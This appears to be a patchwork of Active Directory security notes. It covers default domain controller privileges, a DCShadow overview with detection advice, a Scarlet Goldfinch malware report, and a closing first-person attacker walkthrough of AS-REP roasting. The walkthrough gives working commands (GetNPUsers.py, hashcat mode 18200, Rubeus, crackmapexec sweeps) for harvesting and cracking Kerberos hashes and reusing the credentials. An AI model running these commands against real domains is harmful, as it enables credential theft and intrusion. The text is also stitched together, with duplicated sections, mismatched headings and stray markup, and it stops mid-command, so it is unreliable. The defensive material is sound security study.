        \item This policy setting determines which users and groups have authority to synchronize all directory service data, regardless of the protection for objects and properties. This privilege is required to use LDAP directory synchronization (dirsync) services. Domain controllers have this user right inherently because the synchronization process runs in the context of the System account on domain controllers.
        \item This policy when coupled with DS-Replication-Get-Changes-All likely grants the type of rights required to run Mimikatz DCSync which enables an attacker to request password hashes for all users in the domain.
    \end{itemize}
    \item Take ownership of files or other objects (SeTakeOwnershipPrivilege)
This policy setting determines which users can take ownership of any securable object in the device, including Active Directory objects, NTFS files and folders, printers, registry keys, services, processes, and threads.

Every object has an owner, whether the object resides in an NTFS volume or Active Directory database. The owner controls how permissions are set on the object and to whom permissions are granted.

By default, the owner is the person who or the process which created the object. Owners can always change permissions to objects, even when they are denied all access to the object.

\end{itemize}
Note: Be very careful with providing the ability to logon locally and via Terminal Services to Domain Controllers since the ability to logon to a Domain Controller provides several potential escalation paths to AD administrator.

 Default Domain Controllers Policy GPO (Windows Server 2012 R2)

 Default Groups and the rights provided through the Default Domain Controllers Policy:

Note that the AD “Built-In” Administrators group is granted most rights.

Server Operators is  provided the following rights through this GPO:

\begin{itemize}
    \item Allow log on locally
    \item Back-up files \& directories
    \item Force shutdown from a remote system
    \item Restore files \& directories
    \item Shut down the system
\end{itemize}
Backup Operators is provided the following rights through this GPO:

\begin{itemize}
    \item Allow log on locally
    \item Back-up files \& directories
    \item Log on as a batch job
    \item Manage auditing and security log
    \item Restore files \& directories
    \item Shut down the system
\end{itemize}
 Print Operators is provided the following rights through this GPO:

\begin{itemize}
    \item Allow log on locally
    \item Load and unload device drivers
    \item Shut down the system
\end{itemize}
 helps people better understand the default rights that builtin AD groups have on Domain Controllers.

 

AD Persistence: Malicious Security Support Provider (SSP)

Key Terminology

Active Directory Schema:

The Active Directory schema is a blueprint that defines the structure and rules for objects and their attributes within an Active Directory forest. It specifies what types of objects can be created (like users, computers, groups) and the properties (attributes) that each object can have. Essentially, it dictates how information is organized and stored in the Active Directory database.

Azure Active Directory (Azure AD):

Azure Active Directory (Azure AD), now known as Microsoft Entra ID, is a cloud-based identity and access management service. It allows organizations to manage users, groups, and access to resources in the cloud and on-premises. Essentially, it acts as a directory service and an identity provider, enabling secure access to various Microsoft and third-party applications.

C-Suite:

In cybersecurity, the "C-suite" refers to the highest level of executives within an organization, typically including positions like CEO, CFO, CIO, and CISO. These leaders play a crucial role in cybersecurity by setting the strategic direction, allocating resources, and ensuring that security is integrated into the overall business strategy. Their involvement is essential for establishing a strong security posture and mitigating risks.

DCSync:

DCSync is a technique used in cybersecurity attacks to impersonate a Domain Controller (DC) and request replication data, including sensitive credentials, from other DCs in an Active Directory (AD) environment.

Domain Replication:

Domain replication is the process of copying and synchronizing directory data across multiple domain controllers (or other servers) within a network. This ensures that all domain controllers have the same information, improving reliability, performance, and data consistency. Essentially, any changes made to the directory on one domain controller are automatically replicated to all others.

Group Policy Object (GPO):

In Active Directory (AD), a Group Policy Object (GPO) is a virtual collection of settings that allows administrators to manage and configure user and computer settings within an AD environment. GPOs are fundamental for centrally controlling and standardizing settings across an organization's network, ensuring consistency and security.

Impersonation:

In cybersecurity, impersonation refers to a malicious tactic where an attacker pretends to be a trusted individual, organization, or system to deceive a target into taking actions that benefit the attacker. This often involves social engineering to manipulate victims into revealing sensitive information, transferring funds, or granting access to systems.

Password Hashes:

Password hashing is a security measure that converts passwords into irreversible, fixed-length strings of characters (hashes) using a one-way function. This prevents the storage of passwords in plain text, making them unreadable even if a database is compromised. Instead of storing the actual password, a system stores its hash, which can be compared to a user's input during login, ensuring authentication without exposing the original password.

Principle of Least Privilege (PoLP):

PoLP stands for the Principle of Least Privilege. It's a cybersecurity concept that dictates users, applications, and systems should only have the minimum necessary access rights to perform their intended tasks. This approach minimizes the potential damage from compromised accounts and reduces the attack surface for malicious actors.

Role-based Access Control (RBAC):

Role-Based Access Control (RBAC) is a security approach that restricts system access based on a user's role within an organization. Instead of granting permissions directly to users, RBAC assigns permissions to roles, and then users are assigned to those roles. This helps manage access effectively and ensures users only have the resources they need.

Security Event and Information Management (SIEM):

SIEM, which stands for Security Information and Event Management, is a cybersecurity solution that aggregates and analyzes security data from various sources within an IT environment. It helps organizations detect, investigate, and respond to security threats in real-time. Essentially, SIEM systems collect logs and event data, correlate that information, and provide a centralized view of security incidents, enabling faster and more effective threat detection and response.

Introduction

A Sneaky AD Persistence Method

Active Directory Recon Without Admin Rights

Active Directory has several levels of administration beyond the Domain Admins group. Securing Domain Controllers to Improve Active Directory Security is what defenders can do to to better secure Domain Controllers and by extension, Active Directory. This post provides information on how Active Directory is typically administered and the associated roles \& rights.

Domain Admins is the AD group that most people think of when discussing Active Directory administration. This group has full admin rights by default on all domain-joined servers and workstations, Domain Controllers, and Active Directory. It gains admin rights on domain-joined computers since when these systems are joined to AD, the Domain Admins group is added to the computer’s Administrators group.

Enterprise Admins is a group in the forest root domain that has full AD rights to every domain in the AD forest. It is granted this right through membership in the Administrators group in every domain in the forest.

Administrators in the AD domain, is the group that has default admin rights to Active Directory and Domain Controllers and provides these rights to Domain Admins and Enterprise Admins, as well as any other members.

Schema Admins is a group in the forest root domain that has the ability to modify the Active Directory forest schema.

Since the Administrators group is the domain group that provides full rights to AD and Domain Controllers, it’s important to monitor this group’s membership (including all nested groups). The Active Directory PowerShell cmdlet “Get-ADGroupMember” can provide group membership information.

Default groups in Active Directory often have extensive rights – many more than typically required. For this reason, we don’t recommend using these groups for delegation. Where possible, perform custom delegation to ensure the principle of least privilege is followed. The following groups should have a “DC” prefix added to them since the scope applies to Domain Controllers by default. Furthermore, they have elevated rights on Domain Controllers and should be considered effectively Domain Controller admins.

Backup Operators is granted the ability to logon to, shut down, and perform backup/restore operations on Domain Controllers (assigned via the Default Domain Controllers Policy GPO). This group cannot directly modify AD admin groups, though associated privileges provides a path for escalation to AD admin. Backup Operators have the ability to schedule tasks which may provide an escalation path. They also are able to clear the event logs on Domain Controllers.

Print Operators is granted the ability to manage printers and load/unload device drivers on Domain Controllers as well as manage printer objects in Active Directory. By default, this group can logon to Domain Controllers and shut them down. This group cannot directly modify AD admin groups.

Server Operators is granted the ability to logon to, shut down, and perform backup/restore operations on Domain Controllers (assigned via the Default Domain Controllers Policy GPO). This group cannot directly modify AD admin groups, though associated privileges provides a path for escalation to AD admin.

To a lesser extend, we’ll group Remote Desktop Users into this category as well.

Remote Desktop Users is a domain group designed to easily provide remote access to systems. In many AD domains, this group is added to the “Allow log on through Terminal Services” right in the Default Domain Controllers Policy GPO providing potential remote logon capability to DCs.

We also see that many times the following is configured via GPO linked to the Domain Controllers OU:

Remote Desktop Users: often granted “Allow log on through Terminal Services” right via Group Policy linked to the Domain Controllers OU.

Server Operators: granted “Allow log on through Terminal Services” right via Group Policy linked to the Domain Controllers OU.

Server Operators: granted “Log on as a batch job” right via GPO providing the ability to schedule tasks.

Review the GPOs linked to the Domain and the Domain Controllers OU and ensure the GPO settings are appropriate.

We often find that a servers GPO is also linked to the Domain Controllers OU and it adds a “Server Admins” group to the local Administrators group. Since Domain Controllers don’t have a “local” Administrators group, the DC updates the domain Administrators group by adding Server Admins. This scenario makes all members of Server Admins Active Directory admins.

Any group/account granted logon locally rights to Domain Controllers should be scrutinized.

Server Operators \& Backup Operators have elevated rights on Domain Controllers and should be monitored. The Active Directory PowerShell cmdlet “Get-ADGroupMember” can provide group membership information.

Other default groups with elevated rights:

Account Operators has the rights to modify accounts and groups in the domain. Also has the ability to log on to Domain Controllers by default (assigned via the Default Domain Controllers Policy GPO). This group cannot directly modify AD admin groups, though associated privileges provides a path for escalation to AD admin.

DNSAdmins has administrative access to Microsoft Active Directory DNS and is often granted the ability to logon to Domain Controllers.

Note that by default, members of the DNSAdmins group are able to run a DLL on a Domain Controller which could provide privilege escalation to Domain Admin rights: 

Group Policy Creator Owners can create, modify, and delete Group Policies in the domain.

Most of the rights granted to groups and accounts on Domain Controllers is applied by the “Default Domain Controllers Policy” Group Policy. These are typically defined in the User Rights Assignment section which we review when performing an Active Directory Security Assessment since it is often very enlightening as to who has rights to DCs. The settings in the Default Domain Controllers Policy have changed over the years from Windows 2000 to now. Note that if you promoted Active Directory with a Windows 2000 or 2003 server, this policy will still contain those original settings, even when running Windows Server 2016 (assuming no one changed the policy settings).

Sensitive Domain Controller User Rights Assignments:

Allow log on locally

This policy setting determines which users can start an interactive session on the computer. Users must have this user right to log on over a Remote Desktop Services or Terminal Services session that is running on a Windows-based member computer or domain controller.

Note:

Users who do not have this right are still able to start a remote interactive session on the computer if they have the Allow logon through Remote Desktop Services right.

Back-up files \& directories

This user right determines which users can bypass file and directory, registry, and other persistent object permissions for the purposes of backing up the system. This user right is effective only when an application attempts access through the NTFS backup application programming interface (API) through a backup tool such as NTBACKUP.EXE. Otherwise, standard file and directory permissions apply.

This user right is similar to granting the following permissions to the user or group you have selected on all files and folders on the system:

Traverse Folder/Execute File

List Folder/Read Data

Read Attributes

Read Extended Attributes

Read Permissions

Default on workstations and servers:

Administrators

Backup Operators

Default on domain controllers:

Administrators

Backup Operators

Server Operators

Enable computer and user accounts to be trusted for delegation (SeEnableDelegationPrivilege)

This policy setting determines which users can set the Trusted for Delegation setting on a user or computer object.Security account delegation provides the ability to connect to multiple servers, and each server change retains the authentication credentials of the original client. Delegation of authentication is a capability that client and server applications use when they have multiple tiers. It allows a public-facing service to use client credentials to authenticate to an application or database service. For this configuration to be possible, the client and the server must run under accounts that are trusted for delegation.Only administrators who have the Enable computer and user accounts to be trusted for delegation credential can set up delegation. Domain admins and Enterprise admins have this credential. The procedure to allow a user to be trusted for delegation depends on the functionality level of the domain.The user or computer object that is granted this right must have write access to the account control flags. A server process running on a computer (or under a user context) that is trusted for delegation can access resources on another computer by using the delegated credentials of a client. However, the client account must have Write access to the account control flags on the object.

Force shutdown from a remote system

This security setting determines which users are allowed to shut down a computer from a remote location on the network. This allows members of the Administrators group or specific users to manage computers (for tasks such as a restart) from a remote location.

Log on as a batch job

This policy setting determines which accounts can log on by using a batch-queue tool such as the Task Scheduler service. When an administrator uses the Add Scheduled Task Wizard to schedule a task to run under a particular user name and password, that user is automatically assigned the Log on as a batch job user right. When the scheduled time arrives, the Task Scheduler service logs on the user as a batch job instead of as an interactive user, and the task runs in the user’s security context.

Log on as a service

This policy setting determines which service accounts can register a process as a service. Running a process under a service account circumvents the need for human intervention.

Manage auditing and security log

Determines which users can specify object access auditing options for individual resources such as files, Active Directory objects, and registry keys.

A user with this right can use the security tab in the security permission set editor’s Properties dialog box to specify auditing options for the selected object.

This user right is defined in the Default Domain Controller Group Policy object (GPO) and in the local security policy of workstations and servers.

By default, only administrators have the privilege to manage auditing and the security log.

Note:

This policy does not allow a user to specify that file and object access auditing be enabled in general. In order for such auditing to take place, the Audit object access setting under Audit Policies must be configured.

Audited events are viewed in the security log of the Event Viewer . A user with this policy can also view and clear the security log.

Restore files \& directories

This security setting determines which users can bypass file, directory, registry, and other persistent object permissions when they restore backed up files and directories, and it determines which users can set valid security principals as the owner of an object.

Granting this user right to an account is similar to granting the account the following permissions to all files and folders on the system:

Traverse folder / execute file

Write

Synchronize directory service data (SeSyncAgentPrivilege)

Ensure that no accounts are assigned the Synchronize directory service data user right. Only domain controllers need this privilege, which they inherently have.

This policy setting determines which users and groups have authority to synchronize all directory service data, regardless of the protection for objects and properties. This privilege is required to use LDAP directory synchronization (dirsync) services. Domain controllers have this user right inherently because the synchronization process runs in the context of the System account on domain controllers.

This policy when coupled with DS-Replication-Get-Changes-All likely grants the type of rights required to run Mimikatz DCSync which enables an attacker to request password hashes for all users in the domain.

Take ownership of files or other objects (SeTakeOwnershipPrivilege)

This policy setting determines which users can take ownership of any securable object in the device, including Active Directory objects, NTFS files and folders, printers, registry keys, services, processes, and threads.

Every object has an owner, whether the object resides in an NTFS volume or Active Directory database. The owner controls how permissions are set on the object and to whom permissions are granted.

By default, the owner is the person who or the process which created the object. Owners can always change permissions to objects, even when they are denied all access to the object.

Note: Be very careful with providing the ability to logon locally and via Terminal Services to Domain Controllers since the ability to logon to a Domain Controller provides several potential escalation paths to AD administrator.

Default Domain Controllers Policy GPO (Windows Server 2012 R2)

Default Groups and the rights provided through the Default Domain Controllers Policy:

Note that the AD “Built-In” Administrators group is granted most rights.

Server Operators is  provided the following rights through this GPO:

Allow log on locally

Back-up files \& directories

Force shutdown from a remote system

Restore files \& directories

Shut down the system

Backup Operators is provided the following rights through this GPO:

Allow log on locally

Back-up files \& directories

Log on as a batch job

Manage auditing and security log

Restore files \& directories

Shut down the system

Print Operators is provided the following rights through this GPO:

Allow log on locally

Load and unload device drivers

Shut down the system

helps people better understand the default rights that builtin AD groups have on Domain Controllers.

 
Beware that pushing data using replication can brick your domain (although we never did it while developing DCShadow)

Executive Summary

DCShadow is a new feature in mimikatz located in the lsadump module. It simulates the behavior of a Domain Controller (using protocols like RPC used only by DC) to inject its own data, bypassing most of the common security controls and including your SIEM. It shares some similarities with the DCSync attack (already present in the lsadump module of mimikatz).

As a reminder a Domain Controller is a server controlling an "Active Directory", a shared authentication service used in enterprises.

First disclosure

It was already possible to simulate a domain controller or to alter its internal database.

For example, by installing in a virtual machine a customized version of SAMBA. But given the fact that running a virtual machine needs hardware instruction (on x64 CPU it is disabled by default), a physical interaction with the computer may be required to enable them in the BIOS/EFI. In addition the size and time needed for a VM is not scalable.

DSInternals powershell tools already allows the editing of an existing AD database, but in offline mode. Putting it online requires to use the AD recovery mode which is not straight forward.

Description of the attack

The attacks is done using the following steps:

registering the "DC" by creating 2 objects in the CN=Configuration partition and altering the SPN of the computer used.
Pushing the data (triggered using DrsReplicaAdd, KCC or other internal AD events)
Removing the object previously created to demote the DC


Beware of testing your data before sending it !!

Here is an example of error when pushing an incorrect DACL (in this case the Owner part was missing)

And some other example of invalid data

Is it a vulnerability ?

No, because the protocols used are documented:


MS-ADTS
MS-DRSR

It is a post exploitation attack (also called domination attack) because it requires domain admin (or enterprise admin) privileges

Why is it a game changer ?

functionally

At a functional level:


iem It can create new backdoor such as SIDHistory, ntpwdHistory, ...
It is a tool to erase the attacker traces (replication metadata, schemasignatureinfo, ...)
Create unseen XSS attack on administration reports


Technically

At a technical level:


The modifications done are made without any logging
Modifications done only by a DC such as setting the SID History or WhenChanged can be done without logging
Partial changes such as changing only the previous password without the new one can be done without logging
Modifications not compliant with the AD data such as a very long sAMAccountName (< 16 characters) can be done without logging

In short it bypasses the SIEM monitoring done on the Active Directory

Demo
Object creation and deletion

DCShadow allows to create object in the past or remove immediately objects via lingering or class change.

Schema modifications

Modify the schema is a powerful way to get backdoor. An example is the modification of the SDDL used by LAPS to store the local admin password. However such modification changes the attribute schemaInfo which tracks such modification and can be used by blue teams. DCShadow allows schema modifications without a change of schemaInfo.

Forensics of the attack

Because DCShadow is pushing replication information, DCShadow is responsible for pushing replication metadata. This metadata is accessible to anyone (including from trusted domains) and available through LDAP or RPC.

This metadata is used by forensic analysts to rebuild the history of change and understand what happened on a domain. Well, this data cannot be trusted anymore.

Metadata alteration

DCShadow allows to modify the object metadata used to recover the past modifications.

How can it be detected ?

DCShadow is easy to detect at network level. API like DrsAddEntry or DrsReplicaAdd are called only from a DC so a call from another computer should be considered as suspicious.

Using logs DCShadow can be detected when objects in the Configuration partition is added or when the computer object is changed. However a DC does not replicate the modifications immediately and regroup the changes when it replicates (a few minutes). As a consequence, the changes can be observed only on the DC attacked. This can be avoided by reusing a demoted DC (the information needed is already present in the configuration partition).

DCShadow does set the SPN GC/* or E3514235-4B06-11D1-AB04-00C04FC2DCD2/* on computers object (via DrsAddEntry)

Using LDAP cookie (LDAP\_SERVER\_DIRSYNC\_OID) is also a way to be notified of LDAP modification

Using Audit Detailed Directory Service Replication events 4928 An Active Directory replica source naming context was established. and 4929 An Active Directory replica source naming context was removed.

new attack possibilities

Here are the new attack possibilities allowed by DCShadow:

Compromise trusted domain via SID History and NTLM (previously only kerberos)
"Reverse DCSync" - set the previous hash of the krbtgt to a known value
"Remote skeleton key" - set a NTLM hash and an AES hash not matching the same password to create Golden / Silver ticket
Setting backdoor in DACL


Internals

How to transform attributes to attid ?

First the attribute has to be found in the schema using the LDAP query (\&(objectclass=attributeSchema)(lDAPDisplayName=<attribute>))

Then the OID is extracted of the attribute using the property attributeID. The syntax is extracted from attributeSyntax. Both OID are converted using a prefixTable to AttiD using the procedure described in MS-DRSR 5.16.4 ATTRTYP-to-OID Conversion

How to encode data to binary ?

Using the attributeSyntax, a syntax is selected according to a MS-DRSR encoding algorithm.

How a DC make the difference between an existing and a new object ?

The DC checks the presence of mandatory attributes such as: instanceType, objectGuid (in NC) and whenCreated. If they are present, the object is new else it is an update. If the request is considered as an update but the object is not present, the object is considered as lingering object and an event is created

FAQ

Is DCShadow a permanent domain controller ?

No: it transforms itself as a DC only the time the changes are pushed (a few seconds)

Does DCShadow deals with the KCC ?

No. It only add a single branch to the replication topology and remove it afterwards. It deals with KCC only if the Configuration records stay for long and in this case, it does not break the topology.

Problem \& Tricks

Adding objects

Check that instanceType and whenCreated are set ; check that the objectGuid has not be used before (log internal processing - Duplicate event log entries were suppressed)

Killing objects

The creation date must be larger that the lingering time (more than 6 months!). Symptom: no RPC connection to the server
%\chapter{Chapter 53}

%
\section{\textbf{Scarlet Goldfinch}}

Closely mimicking SocGholish, this fake update variant propelled its primary payload, NetSupport Manager, into prominence as well.

\subsection{\textbf{\#3}}

\textbf{Overall Rank}

\subsection{\textbf{3.4\%}}

\textbf{Customers Affected}

\subsection{\textbf{Analysis}}

Scarlet Goldfinch is Red Canary’s name for a fake browser update activity cluster, similar to \href{https://redcanary.com/threat-detection-report/threats/socgholish/}{\textbf{SocGholish}}, that first emerged in June 2023. One of several emerging threats in mid-2023 that followed SocGholish’s fake update footsteps, Scarlet Goldfinch is tracked by \href{https://www.trellix.com/blogs/research/new-techniques-of-fake-browser-updates/}{\textbf{other researchers}} under several different names, including \href{https://medium.com/walmartglobaltech/smartapesg-4605157a5b80}{\textbf{SmartApeSG}} (due to early observations of C2 infrastructure hosted on SmartApe ASN) and \href{https://www.proofpoint.com/us/blog/threat-insight/are-you-sure-your-browser-date-current-landscape-fake-browser-updates}{\textbf{ZPHP}} (due to the use of PHP files to host C2 payloads).

Like SocGholish, Scarlet Goldfinch leverages compromised websites to present unsuspecting visitors with a notification that they need to update their browser. Those who take the bait will download a malicious JavaScript (JS) file that typically attempts to install \href{https://redcanary.com/threat-detection-report/threats/netsupport-manager/}{\textbf{NetSupport Manager}}, providing persistent remote access to the adversary.

Scarlet Goldfinch leverages web injects on compromised legitimate websites to redirect users to their fake update download sites. This approach leads to a somewhat diverse and indiscriminate pool of victims, and we have not observed any patterns in targeting by Scarlet Goldfinch. Left unchecked, we have observed additional follow-on payloads delivered after NetSupport, such as \href{https://redcanary.com/threat-detection-report/threats/lummaC2/}{\textbf{LummaC2}}.

At a high level, Scarlet Goldfinch’s objectives have remained consistent from when we first observed it in mid-2023. The use of fake update lures to entice a user to run a malicious JS dropper to download and install NetSupport has remained consistent. However, at the procedure level, Scarlet Goldfinch demonstrated several changes throughout 2024, indicating ongoing active development.

\begin{itemize}
    \item Analysis
    \item Take action
    \item Detection
    \item Testing
\end{itemize}
Scarlet Goldfinch tricks users into downloading a malicious JavaScript file that typically attempts to install NetSupport Manager, providing persistent remote access to the adversary.

\paragraph{\textbf{Tracking changes in lure names}}

\paragraph{\textbf{Ditching PowerShell}}

While these changes in lure names indicate continued minor tinkering with Scarlet Goldfinch, the biggest change we observed showed up in mid-November 2024. For about 15 months prior to that, Scarlet Goldfinch had used \textbf{PowerShell} code as the second-stage downloader to deploy NetSupport onto the system. Spawned by the wscript process, PowerShell would reach out to a C2 domain to pull down a ZIP file containing the NetSupport client32.exe binary, unzip the contents to a folder in \%AppData\%, execute it, and modify the CurrentVersion\textbackslash{}Run key in the \textbf{Windows registry} to establish logon persistence. This PowerShell code saw minor changes over time, similar to the filename lures, adding increased obfuscation through variables and modifying the installation folder and run key names. But the basic functionality remained unchanged.

Then, in November 2024, the PowerShell component disappeared from the infection chain. Instead, the adversaries beefed up the code in the JS file. The tactics and higher-level techniques remained the same–pull down a ZIP containing NetSupport, write it to a folder, and establish run key persistence–but the procedures for doing this now existed entirely within the initial JavaScript dropper. While this change not only represents active code development, it also impacts detection strategies.

But as often happens, when one door closes another one opens. Scarlet Goldfinch no longer triggers the subset of PowerShell detection logic it once did, but we’re now seeing new activity from some of our other detection logic.

\subsection{\textbf{Take action}}

One of the best ways to mitigate risks associated with Scarlet Goldfinch–as well as SocGholish, Gootloader, and other threats that begin with malicious JavaScript files–is to change the default behavior in Windows to open JS files with notepad or another editor rather than immediately executing them. 

\subsection{\textbf{Detection opportunities}}

\paragraph{\textbf{Script execution from Explorer’s built-in ZIP function}}

This pseudo-detection analytic looks for WScript executing JavaScript files in the temp folder and app data, a tell-tale sign of mischief. 

parent\_process == (explorer.exe)

\&\&

process == (wscript.exe)

\&\&

command\_line\_includes ( users || temp) \& (.zip || .js)

\&\&

has\_netconn


\subsection{\textbf{Testing}}

You can test detection capabilities by modifying and executing \textbf{tests for T1059.007} using Atomic Red Team, particularly \textbf{Atomic Test \#2 – JScript execution to gather local computer information via wscript}. The tests will need customization using script paths that match those of Scarlet Goldfinch scripts.
%
\textbf{AD-AS-REP Roasting}

\textit{Owning the Kingdom by Forging the King’s Signature}

Section 1: Attacker’s View

\section{\textbf{Understanding Golden Ticket Attacks}}

\begin{table}
\justifying

\begin{tabular}{| l | l |}
\hline
\textbf{What It Is in Shortform:} & \textbf{Tools Used:} \\
\hline
\textit{Golden Ticket attacks use a forged Kerberos Ticket Granting Ticket (TGT) to gain unrestricted access or resources within an Active Directory domain.} &  \\
\hline

\end{tabular}

\end{table}

\subsection{\textbf{AS-REP Roasting}}

\textit{\textbf{Shortform: }}\textit{Technique that enables attackers to steal password hashes of user accounts that have Kerberos preauthentication disabled.}

\textbf{The Sweet Spot: Exploiting Optional Weakness by Default}

When I’m inside a Windows domain, I’m not looking to kight up alarms. I’m not trying to drop malware or beacon out via port 443. I’m looking for low-effort, high-yield actions that exploit built-in features - the stuff blue teams forget is even there. And AS-REP Roasting is exactly that: a protocol abuse hiding in plain site, enabled by misconfiguration and rarely checked on.

Kerberos is supposed to be secure. That’s the whole pitch - mutual authentiation, ticket-granting infrastructure, encrypted communications. And for the most part, it’s solid. But just like any complex system, it has edge cases. And one of those edge cases is this: \textbf{if a user account doesn’t require preauthentication, }the KDC will send you a chunk of encrypted data without verifying who you are. That chunk? It’s a straight-up password hash. A gift.

That’s what AS-REP Roasting is. It’s not an exploit. It’s not even a vulnerability. It’s an intentional behavior in Kerberos authentication. If a user has `DONT\_REQUIRE\_PREAUTH` set in Active Directory, then anyone - even unauthenticated attackers - can request their AS-REP (authentication service response) and get a blob encrypted with the user’s password hash. No logon required. No domain membership. Just a simple request. The domain gives it to you on a silver platter.

And that’s where the game begins. Once I’ve got the blob, I throw it into my cracking rig. Hashcat, John the Ripper - whatever I’m using that day. Because it’s encrypted with a key derived from the user’s password, I can try password guesses offline. No lockouts. No alerts. No rate-limits. Just raw compute against an exposed credential. 

Best part? This works \textbf{from the outside}. If the domain controller is exposed - via misconfigured VPN access, exposed LDAP, or if I’ve phished a user into an internal relay - I can enumerate accounts, request their AS-REPs, and start roasting. No access needed. No initial foothold. This is recon and credential harvesting rolled into one - quiet, legal-by-design, and overlooked by 90\% of network defenders.

You know what makes it even better? Most organizations don’t even know which users have preauth disabled. Sometimes it’s old service accounts. Sometimes it’s legacy users who got a special policy exception. Sometimes it’s just AD hygiene that fell apart over the years. I don’t need to know why. I just need one user. One valid hash to crack. One foothold. And AS-REP Roasting gives me that without even touching the workstation.

\textbf{Scouting the Target: How to Identify Roasting Opportunities}

Before I roast anything, I first need targets. AS-REP Roasting isn’t blind - it’s surgical. I’m looking for user accounts in Active Directory that have the \textbf{`DONT\_REQ\_PREAUTH`} flag set. That flag disables the need for preauthentication in Kerberos, which is exactly what I need to request an encrypted blob anonymously. They think it’s some obscure configuration only used in lab environments. They’re wrong. It shows up in the wild all the time - usually by accident.

So first: I enumerate domain users. If I’ve already landed inside the network - even on a low-privileged account - I can use PowerView, ADFind, or GetADUser in PowerShell to pull every user object in the domain. I don’t need passwords. I don’t need elevated rights. Just domain access and a list of usernames. If I’m working externally, it’s tricker - but with a misconfigured LDAP or a cracked VPN portal, I can get that same list without much friction.

Once I’ve got usernames, I sort for the weaker ones. Using `Get-ADUser -Properties DoesNotRequirePreauth` in PowerShell or the ``--format` options in Impacket’s `GetNPUsers.py`, I can filter which accounts are roastable. What I’m looking for is that flag. The moment I see it set to `True` on any account, I tag it. Because that’s a user I can request an AS-REP for - without logging in. Without even knowing their password.

Most of the time, it’s \textbf{service accounts}. Legacy systems that needed to “autologin” to something twenty years ago. Or test accounts created by developers who didn’t want to deal with login delays. Occasionally, it’s a real user who had the setting misconfigured by someone clicking through AD too fast. And if that user has a weak password? Game over.

My tool of choice for harvesting is Impacket’s GetNPUsers.py. It’s lightweight, fast, and doesn’t raise flags unless you’re being sloppy. It lets you pull AS-REP encrypted blobs for any roastable user you have a name for. If you’re smart, you feed it a carefully built list of usernames - ones that actually exist. No wild guessing. You don’t want to spam the DCs. You want clean hits.

If I’m inside the domain and don’t want to use Python, I’ll drop into PowerShell and use Rubeus. It’s quiet, it doesn’t need external binaries to call on, and it pulls AS-REP responses directly. Once I have those ciphertext blobs, I export them and prepare for cracking. No further interaction with the domain needed. From here, everything goes offline.

And let’s not forget: this whole process is stealthy. I’m not logging into anything. I’m not failing passwords. I’m not triggering lockouts or alerts. I’m requesting data the domain controller is configured to hand out. I’m just asking for it, and it’s obliging - because someone didn’t turn off a setting no one pays attention to.

This is what makes AS-REP Roasting such a powerful move in a post-recon chain. I can get credentials - legit ones - without dropping malware, without exploiting a service, without ripping detection systems. I can do it with a script and a username. If the hash cracks? That account becomes my entry point or my escalation path. And nobody saw it coming.

\textbf{The Crack: Turning AS-REP Hashes Into Real Access}

Now I’ve got what I came for: an AS-REP encrypted blob - essentially, a Kerberos reply encrypted with the user’s NTLM hash. This is gold. Not just a random hash, but one that can be brute-forced offline without touching the network. No failed logon attempts. No rate-limits. No logs that say “someone tried to guess a password.” Just me, a file, and however much GPU power I need to throw at it.

If I use Impacket to gather it, the command looks like this:

```

python3 GetNPUsers.py 'corp.local/' -usersfile users.txt -no-pass -format hashcat -dc-ip 10.0.0.10

```

That pulls down AS-REP hashes for any users in `users.txt` that have preauth disabled. The `-format hashcat` flag outputs it in a format Hashcat understands natively, which makes things faster. Eahc line looks like this:

```

\$krb5asrep\$23\$user@corp.local:cb62d1f7d76f40404d23fa9d3df57c47\$5a3e4c1eae...

```

That string is what I feed into my cracking rig. The `\$krb5asrep\$23\$` prefix tells Hashcat it’s a Kerberos 5 AS-REP hash using RC4-HMAC. The rest is the user’s encrypted reply.

From there, I queue up Hashcat with mode 18200 (the mode for AS-REP hashes):

```

hashcat -m 18200 asrep\_hashes.txt rockyou.txt --force -O

```

That command launches the crack using the legendary `rockyou.txt` wordlist I mentioned earlier. If I’m going after corporate environments, I might use custom wordlists built from company info, seasonal passwords, or user patterns (`CorpName2025!`, `Welcome123`). Hashcat will churn through every candidate password, encrypt it, and compare it to the blob. If it matches, the password’s cracked - and I now have full login credentials for that user.

Here is what a successful crack looks like:

```

\$krb5asrep\$23\$svc\_backup@corp.local:...:\$Password1!

```

That `Password1!` is real. Reusable. A login key into the domain. If that account is a service account, it probably has persistent access somewhere. If it’s tied to a script, app, or scheduled task, I might be able to escalate from there - or blend in without triggering any user activity alerts. If the account is still active, I just got a beachhead. All without ever sending a password over the wire.

If I use Rubeus inside the domain, the syntax is just as simple. Fire up a PowerShell session with Rubeus in memory, then run:

```

Rubeus.exe asreproast

```

This dumps all roastable accounts and their AS-REP hashes, right there. From inside the domain, that’s fast and effortless. I export those to a file and move them off the network immediately. From that point forward, the domain controller never sees me again. I’m offline, quiet, and quite dangerous.

Cracking times may vary, so keep that in mind. If the password is weak - something human-picked - it’ll fall within minutes. If it’s a 16-character randomized string? Probably not worth my time unless I know that account is critical. But I don’t need them all. I need just one. One cracked password. One door left unlocked. One misconfigured user. And AS-REP Roasting gives me that opportunity with little to no risk.

Offline attacks are where defenders have zero control. You can’t block what you can’t see. You can’t lock the attacker out at that point. You can’t really rate-limit their attempts. Once they’ve got the blob, they own the tempo. And if you’re not auditing which accounts the attackers have preauth disabled, I promise, they’ll find one before you do.

At this point, we have cracked the hash. Now it’s time to make that access count. Because getting a password is just step one. The real game is what you \textbf{do} with it - how you pivot, how you escalate, and how you turn one roastable user into domain dominance without ever raising a flag.

\textbf{Weaponizing Access}

Cracking the password gives me a real, functioning set of credentials. I;ve gone from passive observer to active threat. Now the question becomes: \textbf{who is the user, and what can they touch? }Because not all accounts are created equal. Sometimes I crack a dormant account. Unless. But other times? I crack something that’s been running unnoticed in production for years - a script, a service account, an embedded credential with more reach than any human user.

My first move is always the same: \textbf{validate the creds}. Quietly, Carefully. I don’t log in through RDP. I don’t trigger MFA. I test SMB, DLAP, or WinRM with Impacket to see what machines accept the login. Here’s a go-to command I use frequently:

```

crackmapexec smb 10.0.0.0/24 -u svc\_backup -p 'Password1!'

```

That lets me sweep the subnet and see where this account has local or domain rights. Maybe it’s just one machine. Maybe it’s twenty. If it returns `Pwn3d!`, I know I’ve got admin access - and that’s where the escalation starts.

Next, I try Kerberos authentication. If I’ve got valid creds, I can request a TGT:

```

Rubeus.exe tgtdeleg /user:svc\_backup /password:Password1!

\begin{verbatim}
\end{verbatim}
Or with Impacket:

```

kerberos\_login.py -username svc\_backup -password 'Password1!' -domain corp.local


